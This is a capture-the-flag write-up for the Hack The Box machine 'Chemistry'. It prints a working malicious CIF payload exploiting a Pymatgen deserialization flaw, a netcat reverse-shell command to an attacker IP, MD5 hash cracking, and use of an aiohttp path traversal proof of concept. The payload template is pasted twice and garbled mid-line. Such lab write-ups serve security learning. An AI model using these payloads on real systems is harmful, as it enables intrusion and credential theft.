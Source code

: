 ![image](https://github.com/user-attachments/assets/81146324-46a2-4112-a69d-7cd2f5ea7918)

<br>

PLATFORM : <br>**Hack The Box**

BOX : <br>**Chemistry**

DIFFICULTY : <br>**Easy**

OS : <br>**Linux**

AUTHOR: <br>**Francesco Basile**

<br><br>

The inital nmap scans reveals two ports open, 22 and 5000.
 
    $ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt
    Starting Nmap 7.80 (https://nmap.org) at 2024-10-22 23:37 CEST
    Nmap scan report for chemistry (10.10.11.38)
    Host is up (0.51s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  upnp?
    | fingerprint-strings:
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/3.0.3 Python/3.9.5
    |     Date: Tue, 22 Oct 2024 21:37:54 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 719
    |     Vary: Cookie
    |     Connection: close
    |
    |     class="title">Chemistry CIF Analyzer
    |
    |     Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.


<br><br>

# Pymatgen Insecure Deserializazion

<br>

The application hosted on the box at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.

![Pasted image 20241023002915-1](https://github.com/user-attachments/assets/b84120fa-fbe7-4534-844a-105686aa94f8)

<br><br>

Searching the web i find the recent *CVE-2024-23346* 

    https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure deserializazion*.
All you need to do is craft a malicious .cif file, and then inject the command you want to execute in it. We have a template of the file's structure in the link above:

    data_5yOhtAoR
    _audit_creation_date            2018-06-08
    _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
    
    loop_
    _parent_propagation_vector.id
    _parent_propagation_vector.kxkykz
    k1 [0 0 0]
    
    _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d indata_5yOhtAoR
    _audit_creation_date            2018-06-08
    _audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
    
    loop_
    _parent_propagation_vector.id
    _parent_propagation_vector.kxkykz
    k1 [0 0 0]
    
    _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
    ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" +
    "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("INSERT PAYLOAD");0,0,0'
    
    _space_group_magn.number_BNS  62.448
    _space_group_magn.name_BNS  "P  n'  m  a'  " 

<br><br>

Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, i find the right one to be:

    busybox nc 10.10.15.56 1337 -e sh

<br><br>

Which allows me to gain a reverse shell:

![Pasted image 20241023004209-1](https://github.com/user-attachments/assets/863f5c8e-9fd9-4335-832c-3b353981df40)


<br><br>

# Web App Enumeration

<br>

Checking the app's directory, i'm able to retrieve the .db database that has stored all the *users passwords md5 hashes*, encoded with the following algorythm, as i can read in the *app.py* file.

    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br>

![Pasted image 20241023010333-1](https://github.com/user-attachments/assets/4d608551-6f3c-4efa-aa7f-12c6edfd4eac)

<br>

![Pasted image 20241023010740-1](https://github.com/user-attachments/assets/23efb1d7-f3bc-4c83-90d7-86ee6a9ee831)

<br><br>

A quick hop to https://crackstation.net reveals me the cleartext password of rosa's user:

![Pasted image 20241102202421](https://github.com/user-attachments/assets/f75f982e-c7e4-4475-aaef-a51aa3d913ff)

<br><br>

And finally i get an initial foothold on the machine. I have a set of credentials to access ssh:

    rosa:<PASSWORD>

<br><br>

# SSH Port Forwarding

<br>

Running linpeas.sh on the machine, i find out a *service listening on port 8080*, localhost

![Pasted image 20241023012150-2](https://github.com/user-attachments/assets/e23684f0-94c2-458f-bc70-886c0c5d34ca)

<br><br>

To enumerate this service, i make up an *SSH Port Forwarding* to our remote host, using the following command:

    ssh -L 8080:localhost:8080 rosa@10.10.11.38

<br><br>

This forwards *my local* 8080 port  to the remote machine's local 8080 port. 

<br>

*Attacking Box 127.0.0.1:8080 ----> Victim Box 127.0.0.1:8080*

<br>

It basically means that i can direct external traffic, like a scan or even access the service from a browser if possible, 
to an internal service on a remote machine that otherwise would be accessible only from the box itself.

<br><br>

# AioHttp Exploitation

<br>

Nmap shows me that Chemistry is running *aiohttp 3.9.1*...

![Pasted image 20241102200205](https://github.com/user-attachments/assets/cf5b4ec4-b9b7-4c90-b592-e9532b9966f0)

<br><br>

...and this is the first result if i search it on google:

    https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. I'm going to modify a bit the script to make it run on *my* localhost's port 8080 and redirecting the exploit to the internal service, trying to read *root's flag*. 

![Pasted image 20241102200634](https://github.com/user-attachments/assets/ade0fe67-0d57-48da-a028-0c308f1ffe52)

<br><br>

And...

![Pasted image 20241102201153](https://github.com/user-attachments/assets/40bfecd8-d215-4b34-abe2-ae06e139e189)

<br><br>

Success! I have partial root access that can be leveraged to a shell and eventual full compromise of the box!
